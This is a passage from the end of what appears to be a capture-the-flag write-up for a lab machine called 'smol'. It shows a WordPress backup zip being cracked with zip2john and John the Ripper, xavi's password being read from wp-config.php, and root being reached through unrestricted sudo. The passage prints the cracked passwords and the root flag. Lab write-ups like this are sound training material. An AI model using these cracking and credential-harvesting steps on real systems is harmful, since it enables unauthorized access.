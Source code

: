 The wordpress.old.zip file was password-protected. zip2john was used to extract the hash, and then John the Ripper with the rockyou.txt wordlist was used to crack the password.

zip2john wordpress.old.zip > zip_hash.txt
john zip_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

The password for the zip file was found to be hero_gege@hotmail.com.
Extracting xavi's Credentials

After unzipping the archive using the cracked password, the wp-config.php file within the extracted WordPress directory was examined. This revealed credentials for the xavi user:

    Username: xavi

    Password: P@ssw0rdxavi@

Switching User to xavi

With xavi's credentials, it was possible to switch user from think to xavi.

su xavi
Password: P@ssw0rdxavi@

# 7. Privilege Escalation to root

This was the final stage of the penetration test, aiming to achieve full root control of the machine.
Checking xavi's Sudo Privileges

Once logged in as xavi, the sudo -l command was executed to check xavi's sudo privileges.

sudo -l

The output indicated that xavi had full sudo privileges, allowing them to run any command as any user (including root) without requiring a password.

Matching Defaults entries for xavi on smol:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on smol:
    (ALL : ALL) ALL

This is a significant misconfiguration, providing a direct path to root.
Gaining Root Access and Finding root.txt

With full sudo privileges, xavi could easily become root.

sudo su

Finally, the root.txt flag was located in the /root directory.

cd /root
cat root.txt

Root Flag: bf89ea3ea01992353aef1f576214d4e4
# 8. Conclusion
